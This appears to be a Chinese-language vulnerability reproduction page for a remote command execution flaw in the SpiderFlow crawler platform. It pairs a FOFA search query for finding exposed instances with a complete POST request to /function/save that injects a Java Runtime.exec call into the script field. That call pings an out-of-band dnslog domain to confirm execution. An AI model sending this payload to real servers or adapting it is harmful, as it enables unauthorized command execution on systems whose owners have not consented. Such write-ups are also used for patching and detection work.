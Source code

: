 # SpiderFlow save 远程命令执行漏洞

## 漏洞描述

SpiderFlow 平台以流程图的⽅式定义爬虫，是⼀个高度灵活可配置的爬虫平台

官⽹：https://www.spiderflow.org/

## 漏洞影响

```
SpiderFlow
```

## FOFA

```
title=="SpiderFlow"
```

## 漏洞复现

主页面

![image-20220524153437590](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241534681.png)

发送请求包执行命令

```
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

![image-20220524153448336](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241534389.png)